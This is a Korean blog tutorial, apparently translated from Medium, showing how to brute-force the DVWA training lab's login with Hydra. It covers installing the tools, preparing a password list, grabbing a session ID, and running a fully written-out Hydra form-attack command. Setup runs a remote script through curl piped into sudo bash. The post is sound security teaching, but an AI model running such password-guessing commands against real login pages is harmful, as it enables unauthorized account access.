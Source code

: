 ```yaml
---
title: "Hydra로 DVWA에 브루트 포스 공격하는 방법"
description: ""
coverImage: "/assets/img/2024-06-30-BruteForceAttackDVWAwithHydra_0.png"
date: 2024-06-30 18:51
ogImage:
  url: /assets/img/2024-06-30-BruteForceAttackDVWAwithHydra_0.png
tag: Tech
originalTitle: "Brute Force Attack DVWA with Hydra"
link: "https://medium.com/@andres.cabeza/brute-force-attack-dvwa-with-hydra-38a6b0dacca3"
isUpdated: true
---
```


안녕하세요! 오늘은 DVWA 브루트 포스 랩을 해킹하는 간단한 명령어를 두 가지 도구를 사용하여 소개하려고 해요.

참고: 이것은 교육적인 자습서 입니다. 본 자습서를 남용할 시에 발생하는 어떠한 문제에 대해서도 책임지지 않습니다.

# 준비물

본 자습서에서는 Ubuntu 머신을 사용하지만 Kali Linux도 사용할 수 있어요. 먼저 필요한 도구들을 설치해 봅시다.

<div class="content-ad"></div>

# 단계 1: DVWA 설치 및 구성

시작하려면 DVWA 프로젝트를 구성해야 합니다. 깃허브 저장소를 복제하고 Apache 서버를 PHP로 설정할 수 있습니다. 또는 다음 컨테이너를 사용하여 Docker를 통해 DVWA를 설치할 수 있습니다: https://hub.docker.com/r/vulnerables/web-dvwa

```js
sudo bash -c "$(curl --fail --show-error --silent --location https://raw.githubusercontent.com/IamCarron/DVWA-Script/main/Install-DVWA.sh)"
```

![이미지](/assets/img/2024-06-30-BruteForceAttackDVWAwithHydra_0.png)

<div class="content-ad"></div>

# 단계 2: 하이드라 설치

이제 비밀번호 크래킹을 위한 하이드라 도구를 설치해야 합니다. Kali Linux를 사용 중이더라도 설정이 필요할 수 있습니다:

```js
git clone https://github.com/vanhauser-thc/thc-hydra
cd thc-hydra
./configure
make
sudo make install
hydra
```

![이미지](/assets/img/2024-06-30-BruteForceAttackDVWAwithHydra_1.png)

<div class="content-ad"></div>

# 단계 3: 비밀번호 사전 준비하기

비밀번호 사전이 필요합니다. Kali Linux를 사용하고 있다면 crunch 도구를 사용하여 비밀번호 사전을 생성하거나 리눅스 머신에 설치할 수 있습니다. 이 튜토리얼에서는 Daniel Miessler 저장소에서 가장 많이 사용되는 100k개의 비밀번호 목록을 사용합니다.

# 단계 4: 대상 식별하기

대상 페이지를 검토하여 비밀번호 필드의 이름과 양식 제출 방법(GET인 경우)을 식별하세요.

<div class="content-ad"></div>

<img src="/assets/img/2024-06-30-BruteForceAttackDVWAwithHydra_2.png" />

<img src="/assets/img/2024-06-30-BruteForceAttackDVWAwithHydra_3.png" />

<img src="/assets/img/2024-06-30-BruteForceAttackDVWAwithHydra_4.png" />

# 단계 5: 실패 메시지 가져오기

<div class="content-ad"></div>

로그인에 실패한 경우에 나타나는 메시지를 확인해주세요. 예를 들어, "사용자 이름 또는 비밀번호가 올바르지 않습니다."와 같이 표시됩니다.

## 단계 6: 세션 ID 획득

리디렉션을 피하기 위해 세션 ID를 획득합니다. 브라우저에 따라 프록시를 사용하는 등 여러 방법으로 세션 ID를 가져올 수 있습니다.

## 공격 실행

<div class="content-ad"></div>

Hydra를 사용한 브루트 포스 공격의 주요 명령어는 다음과 같아요:

```js
hydra -L users.txt -P 100k-most-used-passwords-NCSC.txt localhost http-get-form \
"/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: security=medium; PHPSESSID=sessionID:Username and/or password incorrect." -V
```

이 명령어를 설명해볼게요

- -L: 크랙할 사용자 목록
- -P: 비밀번호 사전
- -V: 상세 모드
- localhost: 공격할 주소
- http-get-form: GET 메서드 사용
- /DVWA/vulnerabilities/brute/: 경로
- 마지막으로 사용자 이름과 비밀번호 변수를 전달하여 시도해봐요.

<div class="content-ad"></div>

마지막으로, 우리가 얻은 결과는 다음과 같습니다

![Image 1](/assets/img/2024-06-30-BruteForceAttackDVWAwithHydra_5.png)

![Image 2](/assets/img/2024-06-30-BruteForceAttackDVWAwithHydra_6.png)

이 내용을 통해 Hydra를 사용하여 DVWA에 대한 브루트 포스 공격을 수행하는 방법을 안내해 드렸습니다. 이 지식을 책임있게 활용해 주세요.

<div class="content-ad"></div>

친절한 답변 감사합니다! 이 튜토리얼이 도움이 되었으면 좋겠어요. 이 도구들을 책임있게 사용해주세요. 🛡️💻

다음에 또 만나요! 🚀😊
